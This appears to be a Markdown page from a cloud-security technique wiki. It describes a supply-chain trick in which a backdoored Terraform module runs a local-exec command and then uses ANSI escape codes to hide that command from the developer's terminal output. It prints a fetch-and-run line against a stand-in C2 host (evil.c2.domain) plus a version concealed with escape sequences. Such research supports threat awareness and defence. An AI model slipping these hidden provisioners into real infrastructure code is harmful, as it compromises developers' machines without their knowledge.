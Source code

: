 ```yaml
---
author_name: Nick Frichette
title: Terraform ANSI Escape
description: Using ANSI Escape Sequences to Hide Malicious Terraform Code
hide:
  - toc
---
```


# Terraform ANSI Escape

Original Research: [Joern Schneeweisz](https://about.gitlab.com/blog/2022/06/01/terraform-as-part-of-software-supply-chain-part1-modules-and-providers/)

When performing a Terraform [apply](https://www.terraform.io/cli/commands/apply) from a local workstation, Terraform will output a list of resources it has created, updated, or deleted. Because this is taking place in a terminal, we can potentially use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) to alter this output. This would allow us to hide or obfuscate malicious activity, such as in a malicious Terraform module.

Take for example the following Terraform code.

``` tf title="main.tf"
resource "null_resource" "hypothetical_ec2_instance" {
}

resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload"
  }
}
```

In this example, we are using a [local-exec](https://www.terraform.io/language/resources/provisioners/local-exec) provisioner to run shell commands. If we were to backdoor a module or git repository storing Terraform configurations, and a developer were to download them and run them on their workstation, this would run the shell commands on their workstation.

!!! Tip
    As an alternative to local-exec, you can also use [external_provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

The problem is that this output would get displayed to the user, for example:

![Regular Output](../images/terraform/terraform_ansi_escape_evasion/regular_output.png)

To solve this, we can use ANSI escape codes to modify this output. It is worth noting that the specific sequences we will need to use will depend on the terminal type the victim is using. The following example is using [gnome-terminal](https://gitlab.gnome.org/GNOME/gnome-terminal) on Ubuntu.

```
\033[2K # Clears the current line
\033[A  # Moves the cursor to the previous line
```

So, we can modify our payload to the following to hide the malicious activity.

``` tf title="main.tf"
resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload; echo -e '\\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A'"
  }
}
```

And this is the output:

![Modified Output](../images/terraform/terraform_ansi_escape_evasion/modified_output.png)
